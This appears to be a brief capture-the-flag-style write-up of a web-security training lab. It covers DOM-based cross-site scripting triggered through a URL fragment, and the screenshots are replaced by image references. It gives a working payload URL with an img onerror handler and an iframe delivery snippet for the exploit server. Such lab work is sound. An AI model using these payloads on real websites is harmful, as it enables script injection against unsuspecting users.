





This is the vulnerable code:

Whatever we type, this gets loaded in the DOM and the webpage gets scrolled into it (if it exists):

The payload is just adding whatever and then an `img`, `iframe` or whatever works:

The payload is: `https://0aee000a0461fc4485b98110009b0014.web-security-academy.net/#%22%3Cimg%20src=x%20onerror=print()%3E`

As this must be executed by the victim, we just store it in the exploit server:
`<iframe src="https://0aee000a0461fc4485b98110009b0014.web-security-academy.net/#" onload="this.src+=''"></iframe>`

Delivering the exploit triggers the XSS:

